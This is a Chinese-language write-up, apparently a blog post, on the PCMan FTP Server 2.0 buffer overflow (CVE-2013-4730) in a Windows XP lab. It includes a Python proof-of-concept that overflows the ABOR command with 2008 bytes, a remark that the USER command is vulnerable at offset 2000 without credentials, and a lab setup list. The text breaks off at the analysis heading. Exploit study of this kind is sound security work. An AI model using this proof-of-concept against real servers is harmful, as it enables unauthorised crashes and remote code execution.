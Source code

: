 ```yaml
---
title: PCMan FTP Server缓冲区溢出漏洞分析与利用
categories: 漏洞分析与利用 pwn
tags: 漏洞分析与利用
---
```

## 简要介绍

这个软件是台湾国立阳明大学医学系的一个学生在大四的时候写的，这个漏洞是有CVE的（CVE-2013-4730），软件应该还挺普及的，这是一个缓冲区溢出漏洞  
具体exp可以点这里  
实验用poc（ **其实这里直接对USER命令溢出都是可以的，即不用知道账号密码即可远程代码执行,USER命令的buf距离返回地址是2000** ）

    
    
    import socket as s
    from sys import argv
    #
    if(len(argv) != 4):
        print "USAGE: %s host <user> <password>" % argv[0]
        exit(1)
    else:
        #store command line arguments
        script,host,fuser,fpass=argv
        sploit = "A" * 2008    
        #create socket
        conn = s.socket(s.AF_INET,s.SOCK_STREAM)
        #establish connection to server
        conn.connect((host,21))
        #post ftp user
        conn.send('USER '+fuser+'\r\n')
        #wait for response
        uf = conn.recv(1024)
        #post ftp password
        conn.send('PASS '+fpass+'\r\n')
        #wait for response
        pf = conn.recv(1024)
        #send ftp command with sploit
        conn.send('ABOR '+sploit+'\r\n')
        cf = conn.recv(1024)
        #close connection
        conn.close()

## 实验环境

> WinXP sp3 中文版  
>  PCMan FTP Server 2.0  
>  immunity debugger  
>  windbg  
>  mona

## 漏洞分析
